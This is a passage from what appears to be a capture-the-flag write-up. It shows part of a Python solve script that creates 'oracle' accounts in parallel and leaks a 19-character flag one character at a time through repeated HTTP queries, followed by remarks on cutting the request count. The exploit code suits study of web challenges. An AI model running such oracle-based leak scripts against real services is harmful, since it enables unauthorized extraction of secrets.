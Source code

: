 ``` py
  })

  resp = requests.get(QUERY_URL + name)
  req_count+=3
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  #print(resp.text)
  data = json.loads(resp.text)
  char = data["username"].replace('account_oracle_', '')
  return char

start = time.time()

if SKIP_CREATE_ORACLE == False:
  print("create oracle account...")
  total = len(charset)
  current = 0
  with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
      futures = {executor.submit(create_oracle, c): c for c in charset}
      for future in concurrent.futures.as_completed(futures):
          current += 1
          if current % 10 == 0 or current == total:
            print(f"Progress: {current}/{total}")

print("leaking flag")
length = 19
ans = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=15) as executor:
    futures = {executor.submit(leak_char, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = data
        print("".join(ans))

print(f"time: {time.time() - start}s, {req_count} requests")
```

It takes 12s and 157 requests, we reduced 29 requests!

## Can we make it less than 100 requests?

156 requests is not that far from 100, it's promising to give it a try.
